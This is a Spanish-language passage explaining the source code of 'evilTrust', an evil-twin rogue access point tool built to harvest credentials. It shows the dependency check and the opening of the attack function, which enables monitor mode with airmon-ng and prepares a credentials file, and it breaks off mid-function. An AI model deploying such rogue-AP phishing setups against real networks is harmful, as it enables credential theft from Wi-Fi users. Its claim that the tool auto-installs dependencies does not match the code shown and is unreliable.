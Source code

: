 Tras su ejecución, a través de la función `dependencies`, se hace una comprobación de las herramientas necesarias para que evilTrust funcione:

```go
function dependencies(){
	sleep 1.5; counter=0
	echo -e "\n${yellowColour}[*]${endColour}${grayColour} Comprobando programas necesarios...\n"
	sleep 1

	dependencias=(php dnsmasq hostapd)

	for programa in "${dependencias[@]}"; do
		if [ "$(command -v $programa)" ]; then
			echo -e ". . . . . . . . ${blueColour}[V]${endColour}${grayColour} La herramienta${endColour}${yellowColour} $programa${endColour}${grayColour} se encuentra instalada"
			let counter+=1
		else
			echo -e "${redColour}[X]${endColour}${grayColour} La herramienta${endColour}${yellowColour} $programa${endColour}${grayColour} no se encuentra instalada"
		fi; sleep 0.4
	done

	if [ "$(echo $counter)" == "3" ]; then
		echo -e "\n${yellowColour}[*]${endColour}${grayColour} Comenzando...\n"
		sleep 3
	else
		echo -e "\n${redColour}[!]${endColour}${grayColour} Es necesario contar con las herramientas php, dnsmasq y hostapd instaladas para ejecutar este script${endColour}\n"
		tput cnorm; exit
	fi
}
```

Tal y como se puede apreciar, para el correcto funcionamiento de la herramienta, es necesario contar con `php`, `dnsmasq` y `hostpad` instalado. En caso de no contar con estas utilidades, evilTrust se encargará de instalar todo lo necesario para poder operar.

Una vez la comprobación es realizada, se llama a la función `startAttack`, donde tal y como su nombre indica... se comienza a desplegar el ataque.

Es en esta fase donde se configurarán una serie de archivos temporales necesarios para desplegar el AP, haciendo que la tarjeta de red opere en modo Router (es obligatorio que la tarjeta de red en uso acepte el **modo monitor**):

```go
function startAttack(){
	clear; if [[ -e credenciales.txt ]]; then
		rm -rf credenciales.txt
	fi

	echo -e "\n${yellowColour}[*]${endColour} ${purpleColour}Listando interfaces de red disponibles...${endColour}"; sleep 1

	# Si la interfaz posee otro nombre, cambiarlo en este punto (consideramos que se llama wlan0 por defecto)
	airmon-ng start wlan0 > /dev/null 2>&1; interface=$(ifconfig -a | cut -d ' ' -f 1 | xargs | tr ' ' '\n' | tr -d ':' > iface)
	counter=1; for interface in $(cat iface); do
		echo -e "\t\n${blueColour}$counter.${endColour}${yellowColour} $interface${endColour}"; sleep 0.26
		let counter++
	done; tput cnorm
	checker=0; while [ $checker -ne 1 ]; do
		echo -ne "\n${yellowColour}[*]${endColour}${blueColour} Nombre de la interfaz (Ej: wlan0mon): ${endColour}" && read choosed_interface

```